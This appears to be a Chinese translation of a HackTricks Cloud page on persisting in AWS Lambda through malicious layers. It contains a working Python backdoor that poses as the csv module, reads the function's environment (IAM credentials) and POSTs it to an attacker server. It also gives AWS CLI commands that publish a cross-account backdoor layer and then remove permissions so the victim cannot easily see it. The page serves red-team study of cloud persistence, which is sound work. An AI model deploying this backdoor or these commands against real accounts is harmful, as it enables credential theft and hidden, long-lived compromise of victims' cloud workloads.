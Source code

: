 # AWS - Lambda Layers 持久性

<details>

<summary><strong>从零到英雄学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Lambda Layers

Lambda layer是一个可以**包含额外代码**或其他内容的.zip文件存档。一个layer可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数最多可以包含**五个layers**。当您在函数中包含一个layer时，**内容会被提取到执行环境中的`/opt`**目录。

**默认情况下**，您创建的**layers**对您的AWS账户是**私有的**。您可以选择将layer**共享**给其他账户或将layer**公开**。如果您的函数使用了不同账户发布的layer，即使该layer被删除或您访问layer的权限被撤销，您的函数也可以**继续使用该layer版本**。但是，您不能使用已删除的layer版本创建新函数或更新函数。

作为容器镜像部署的函数不使用layers。相反，您在构建镜像时将首选的运行时、库和其他依赖项打包到容器镜像中。

### Python加载路径

Python在lambda中将使用以下加载路径：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查**第二**和第三**位置**是由目录占据的，这些目录是**lambda层**解压其文件的地方：**`/opt/python/lib/python3.9/site-packages`** 和 **`/opt/python`**

{% hint style="danger" %}
如果攻击者设法在被使用的lambda**层**中植入**后门**，或者**添加一个**将在加载常用库时**执行任意代码**的层，他将能够在每次lambda调用时执行恶意代码。
{% endhint %}

因此，要求是：

* **检查库**，这些库是被受害者代码**加载**的
* 创建一个带有lambda层的**代理库**，它将**执行自定义代码**并**加载原始**库。

### 预加载的库

{% hint style="warning" %}
在滥用这项技术时，我遇到了一个困难：当你的代码被执行时，有些库已经在python运行时中**加载了**。我本以为会找到像`os`或`sys`这样的东西，但**甚至`json`库也被加载了**。\
为了滥用这种持久性技术，代码需要**加载一个在代码执行时未加载的新库**。
{% endhint %}

使用像这样的python代码，可以获取在lambda中的python运行时内**预加载的库列表**：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
这是**列表**（检查像`os`或`json`这样的库是否已经存在）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
以下是**lambda 默认安装的库**的列表：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer 植入后门

在这个例子中，假设目标代码正在导入 **`csv`**。我们将对 **`csv` 库的导入**进行后门植入。

为此，我们将在 lambda 加载的路径 **`/opt/python/lib/python3.9/site-packages`** 中创建包含文件 **`__init__.py`** 的目录 **csv**。\
然后，当 lambda 执行并尝试加载 **csv** 时，我们的 **`__init__.py` 文件将被加载并执行**。\
这个文件必须：

* 执行我们的有效载荷
* 加载原始的 csv 库

我们可以通过以下方式做到这两点：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
接着，创建一个zip文件，将代码放在路径 **`python/lib/python3.9/site-packages/__init__.py`** 中，并将其作为lambda层添加。

您可以在 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) 找到这段代码

集成的有效载荷将**在第一次调用时或在lambda容器重置后（代码更改或冷启动lambda）向服务器发送IAM凭证**，但也可以集成**其他技术**，例如以下内容：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用**来自外部账户的lambda层**。此外，即使没有权限，lambda也可以使用来自外部账户的层。\
还要注意，**lambda可以拥有的最大层数是5**。

因此，为了提高这种技术的多功能性，攻击者可以：

* 后门用户现有的层（没有外部内容）
* **在他的账户中创建**一个**层**，给予**受害者账户权限**使用该层，**配置**受害者Lambda中的**层**，然后**移除权限**。
* **Lambda** 仍然能够**使用该层**，而**受害者将**没有简单的方法**下载层的代码**（除非在lambda内部获取反向shell）
* 受害者在使用 **`aws lambda list-layers`** 时**不会看到外部层**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
```markdown
{% endcode %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
```
